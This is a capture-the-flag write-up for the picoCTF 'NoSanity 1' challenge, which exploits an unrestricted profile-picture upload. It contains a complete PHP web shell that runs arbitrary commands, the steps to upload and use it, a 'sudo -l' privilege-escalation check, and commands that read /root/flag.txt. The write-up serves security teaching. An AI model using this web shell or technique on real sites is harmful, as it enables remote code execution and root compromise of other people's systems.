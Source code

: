 # Description:
A developer has added profile picture upload functionality to a website. 
However, the implementation is flawed, and it presents an opportunity for you. 
Your mission, should you choose to accept it, is to navigate to the provided 
web page and locate the file upload area. Your ultimate goal is to find the 
hidden flag located in the /root directory.
You can access the web application here!

### Hints:
1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check sudo -l


# Solution
We browse to the web site and see the following

NoSanity 1 Homepage

Upload a web shell
We would like to get a web shell on the machine and we can use this small one (credits to joswr1ght)
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
Then we click Choose File, select our file (web_shell.php) and click Upload Profile.
We get the following result

The file web_shell.php has been uploaded Path: uploads/web_shell.php
Use the web shell
Next, we navigate to the web shell (http://standard-pizzas.picoctf.net:61542/uploads/web_shell.php) and input id.
The result is uid=33(www-data) gid=33(www-data) groups=33(www-data) so we can execute code.

Now we check sudo -l that returns
```
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL

```
telling us we have unlimited sudo access as root.


Get the flag
Finally, we use sudo ls /root to get the name of the flag which is flag.txt.
And get the file contents with sudo cat /root/flag.txt.

picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}

## References
[File upload vulnerabilities - PortSwigger](https://portswigger.net/web-security/file-upload)  
[sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)  
[Unrestricted File Upload - OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)  
[Web shell - Wikipedia](https://en.wikipedia.org/wiki/Web_shell)  

## 🔍 What Was Exploited
Aspect	Details
🔓 Vulnerability	Unrestricted File Upload (no file type/content validation)  
🐚 Exploit	Uploaded a PHP web shell disguised as an image  
📟 Result	Remote Code Execution (RCE) via web shell  
🔐 Privilege Escalation	Used sudo -l to discover full root access  
